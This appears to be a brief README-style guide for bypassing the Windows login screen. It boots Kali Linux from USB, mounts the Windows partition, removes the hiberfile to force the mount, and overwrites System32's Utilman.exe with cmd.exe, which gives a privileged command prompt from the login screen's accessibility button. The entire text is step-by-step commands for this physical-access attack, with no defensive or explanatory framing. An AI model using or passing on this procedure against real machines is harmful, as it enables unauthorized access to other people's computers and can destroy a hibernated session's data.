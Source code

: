 ### Boot kali from usb stick
```
mkdir /mnt/windows
```

### Mount windows partition
```
mount /dev/<windowsPartition> /mnt/windows
```

### If error occurs while mounting (Windows is hibernated, refuse to mount)
```
umount /dev/<windowsPartition>
mount -t ntfs-3g -o remove_hiberfile /dev/<windowsPartition> /mnt/windows
cd /mnt/windows/Windows/System32
```

### Create backup
```
cp Utilman.exe backup.exe
```

### Replace utilman with cmd
```
cp cmd.exe Utilman.exe
```

### Umount
```
umount -R /mnt
```

### Shut down kali and boot windows system ->  click "Utilman"
```
```


